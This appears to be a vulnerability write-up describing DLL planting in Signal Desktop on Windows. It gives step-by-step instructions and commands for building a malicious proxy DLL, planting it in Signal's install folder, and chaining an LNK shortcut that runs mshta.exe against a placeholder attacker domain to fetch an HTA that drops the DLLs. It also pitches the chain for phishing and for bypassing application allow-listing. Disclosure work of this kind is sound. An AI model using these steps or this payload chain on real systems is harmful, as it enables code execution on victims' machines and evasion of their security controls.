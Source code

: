 # Summary 
Multiple instances of DLL planting exist, and a threat actor can plant DLLs that don't exist but are referenced by the application 

# Steps to Replicate
1. First, create a malicious DLL. Signal references a bunch of non-existent DLLs, so for this example, I used `cryptbase.dll`. You can use [this repository](https://github.com/tothi/dll-hijack-by-proxying) to build the DLL, but I'll simplify the steps for you:
   * Clone the repo.
   * Modify the `cryptbase.c` file as you see fit.
   * Copy `C:\Windows\System32\cryptbase.dll` into the `dll-hijack-by-proxying` directory as `cryptbase_original.dll`.
   * Create the exports using the `gen_def.py` script in the `dll-hijack-by-proxying` directory.

    ```
    python3 gen_def.py cryptbase_orig.dll > cryptbase.def
    ```
   
   * Run the following command if you're compiling for x64 Windows:

    ```
    compile x86_64-w64-mingw32-gcc -shared -o cryptbase.dll cryptbase.c cryptbase.def -s
    ```

2. Now you've got your malicious DLL. Copy `cryptbase.dll` and `cryptbase_orig.dll` into the `%LocalAppData\Programs\signal-desktop` folder.
3. Run Signal, and the code will execute. Here's a cute calculator PoC example:
   
    ![Calculator PoC](https://raw.githubusercontent.com/johnjhacking/placeholder/main/1.png?token=GHSAT0AAAAAABZSW66OBKS446AIMVFSEHF6ZASOIUQ)

# Turning up the Heat
If you're like me, simply popping the calculator isn't enough. Let's chain this as an LNK -> HTA -> Your Payload. Signal references non-existent DLL files, and you can chain this against as a bypass against something like AppLocker or a default deny tool, leveraging the trust of the product as a "safe" messenger.

1. Create an LNK shortcut, and change the target to the following:

    ```
    C:\Windows\System32\mshta.exe https://yourdomain/poc.hta
    ```

    It should look something like this:
   
    ![LNK PoC](https://raw.githubusercontent.com/johnjhacking/placeholder/main/2.png?token=GHSAT0AAAAAABZSW66P7OWYJP4BVQXBRA5GZASOJGQ)

2. Host your `cryptbase.dll` and `cryptbase_orig.dll` files.
3. Modify the code in the `poc.hta` file within this GitHub repo to utilize the URLs of your hosted DLL files.
4. Host the HTA on your domain.
5. Run the LNK shortcut and watch as the DLL files are dropped into the `%LocalAppData\Programs\signal-desktop` folder.
6. Now, when the victim runs Signal, your malicious DLL will run. Phishing ftw.
7. You can use whatever you want, but for a quick test, I hosted an HTA server to see if my HTA would drop the DLLs that execute an HTA LOL, so in my case, the chain was LNK -> HTA drops DLLs -> User runs Signal -> DLL executes remote HTA. In a non-poc scenario, I'd swap the HTA payload out with a custom DLL payload and cut out the secondary remote call.
   
    ![RCE Proof](https://raw.githubusercontent.com/johnjhacking/placeholder/main/3.png?token=GHSAT0AAAAAABZSW66OWR6EFTYZEPV3LOHCZASOJSQ)
